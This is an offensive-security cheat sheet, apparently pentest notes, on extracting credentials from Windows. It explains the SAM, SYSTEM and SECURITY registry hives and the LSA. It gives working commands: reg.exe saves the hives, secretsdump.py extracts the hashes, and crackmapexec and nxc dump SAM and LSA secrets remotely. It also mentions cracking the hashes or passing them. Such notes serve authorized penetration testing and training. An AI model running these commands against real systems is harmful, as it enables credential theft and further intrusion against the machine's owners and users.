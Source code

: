 The **SAM (Security Account Manager) database** in Windows is a system file that stores user account information and security credentials for the local computer. It contains usernames, hashed passwords, and group memberships for accounts managed on the local machine. The SAM database is critical for the authentication process and is used by the Local Security Authority (LSA) to verify user credentials during login.

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |
Copy Registry Hives:

```bash
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

Copy files to attacking system, using SMB or some other method, then:

```bash
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Crack with hashcat or use PTH.

Remotely, needs administrator level credentials:

```bash
crackmapexec smb x.x.x.x -u <user> -p <pass> --local-auth --sam
```

### LSA

The **Local Security Authority (LSA)** in Windows is a key component of the operating system responsible for enforcing security policies, managing user authentication, and handling logon processes. It verifies user credentials by interacting with the Security Account Manager (SAM) database and other authentication mechanisms, such as Kerberos or NTLM. The LSA temporarily stores clear text credentials in memory for specific functions, such as enabling single sign-on (SSO) or delegating credentials for remote authentication.

The LSA also manages security tokens, which define a user’s permissions and privileges after successful authentication. It plays a crucial role in maintaining system security by enforcing access controls and ensuring the integrity of authentication processes.

```bash
nxc smb x.x.x.x -u <user> -p <pass> --local-auth --lsa
```